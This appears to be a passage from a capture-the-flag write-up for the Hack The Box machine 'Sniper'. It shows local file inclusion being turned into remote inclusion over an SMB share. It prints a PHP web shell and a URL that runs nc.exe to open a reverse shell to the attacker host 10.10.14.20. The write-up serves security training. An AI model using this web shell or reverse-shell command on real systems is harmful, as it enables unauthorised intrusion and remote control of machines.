 ## Exploiting

Let’s return to the **LFI** vuln if we try to change the current directory to `..\index.php`, the page shows an error.

![Untitled](/HTB/sniper-8.png)

But if we try with aboslute paths like `\windows\win.ini` the page loads his content in the source code.

If we have LFI it’s possible that we have RFI at the same time.

If we run a website and try to connect to any file on it with the machine doesn’t do nothing. HTTP includes seem to be turned off.

![Untitled](/HTB/sniper-9.png)

![Untitled](/HTB/sniper-10.png)

We know that the machine is windows this is why we have other possible **RFI** in the smb service so let’s put a **smbserver.py** and try to load the same file.

I used this command to run the server

```php
smbserver.py smbFolder $(pwd) -smb2support
```

This command creates a share folder named smbFolder when we put the current directory with `$(pwd)` and supports smb v2.

Now the website doesn’t show the error and we obtained the output of the whoami command. We have managed to load a file with smb.

![Untitled](/HTB/sniper-11.png)

![Untitled](/HTB/sniper-12.png)

I tried to load a web shell because the website is running php and we don’t know if the remote machine has nc, so a reverse shell maybe doesn’t work well.

The webshell works putting the value of the command in the url and the output of the command is wrote in the source code. The webshell PHP code is:

```php
<?php
    echo system($_GET["cmd"]);
?>
```

Now we have command injection, we can try to put in the smb share folder a nc.exe windows binary to run a reverse shell. I found this binary in the [SecLists](https://github.com/danielmiessler/SecLists) Folder > Web-Shells > FuzzDB. 

Once we putted the file in the smbFolder we can run the reverse shell with the following url 

```html
http://10.10.10.151/blog/?lang=\\\\10.10.14.20\\smbFolder\\basicWebShell.php&cmd=\\\\10.10.14.20\\smbFolder\\nc.exe+-e+cmd+10.10.14.20+4444
```
